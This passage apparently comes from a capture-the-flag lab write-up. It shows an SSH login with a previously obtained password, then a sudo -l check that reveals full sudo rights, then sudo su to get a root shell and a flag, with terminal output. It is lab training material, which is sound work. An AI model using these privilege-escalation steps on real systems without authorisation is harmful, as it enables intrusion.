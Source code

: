 We used SSH to log into Host-B as `peter.turner@hybrid.vl` using the password we obtained.

<img src="attachments/e2079ac8811f02b328a89f9db3d7aa97.png" />

### Full Privilege Escalation(Host B)

We used the `sudo -l` command and discovered that we had full sudo rights. We then used the `sudo su` command to gain a root shell and obtained the `Hybrid_User-2` flag.

```
peter.turner@hybrid.vl@mail01:~$ sudo -l
[sudo] password for peter.turner@hybrid.vl: 
Sorry, try again.
[sudo] password for peter.turner@hybrid.vl: 
Matching Defaults entries for peter.turner@hybrid.vl on mail01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User peter.turner@hybrid.vl may run the following commands on mail01:
    (ALL) ALL
peter.turner@hybrid.vl@mail01:~$ sudo su
root@mail01:/home/peter.turner@hybrid.vl# cd /root
root@mail01:~# ls
```